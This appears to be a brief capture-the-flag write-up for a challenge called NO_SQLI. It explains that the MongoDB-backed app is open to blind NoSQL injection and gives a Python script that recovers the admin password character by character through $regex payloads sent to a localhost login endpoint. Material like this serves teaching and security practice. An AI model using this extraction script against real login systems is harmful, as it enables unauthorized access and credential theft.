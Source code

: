 # NO_SQLI
## writeup

the app uses mongo db from the source code we see that the flag is the admin password 
the app is vulnerable to blind no sql injection 

here is a script 
```py
import requests
import string

flag=""

u="http://localhost:1330/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.ascii_letters+'0123456789{_}':
        payload='{"username": "admin", "password": {"$regex": "^%s" }}' % ( flag + c)
        r = requests.post(u, data = payload, headers = headers)
        if 'failed' not in r.text:
            print("FLAG = : %s" % (flag+c))
            flag += c
            if c == '}':
                exit()
```
